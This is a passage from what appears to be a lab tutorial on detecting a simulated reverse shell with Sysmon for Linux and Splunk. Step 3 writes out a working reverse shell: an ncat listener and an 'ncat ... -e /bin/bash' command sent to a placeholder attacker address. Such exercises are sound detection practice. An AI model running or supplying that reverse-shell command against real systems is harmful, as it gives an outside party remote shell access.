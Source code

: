 - Save and restart Sysmon:

  ```bash

  sudo sysmon -i sysmon-config.xml

  systemctl restart sysmon

  ```

---

### **Step 3: Simulate a Suspicious Process Execution**

1. **Simulate a Reverse Shell**:

   - On the **attacking machine**, use Netcat to create a listener:

     ```bash
     sudo apt install ncat net-tools -y

     ncat -lvnp 4444

     ```

   - On the **target server**, execute the reverse shell:

     ```bash

     sudo apt install ncat net-tools -y
     ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash

     ```

   - Replace `<attacker-ip>` with the IP address of the attacking machine.

2. **Verify the Process Execution on Victim machine**:

   - List running processes on the Ubuntu server:

     ```bash

     sudo lsof -i :4444

     netstat -tulnp | grep 4444

     ps -p <PID> -o pid,user,cmd //Check Running Processes

     ```

---

### **Step 4: Configure Splunk for Log Monitoring**

1. **Set up Sysmon logs forwarding**:

   - Configure Splunk Universal Forwarder to monitor Sysmon logs:

     ```bash

     sudo nano /opt/splunkforwarder/etc/system/local/inputs.conf
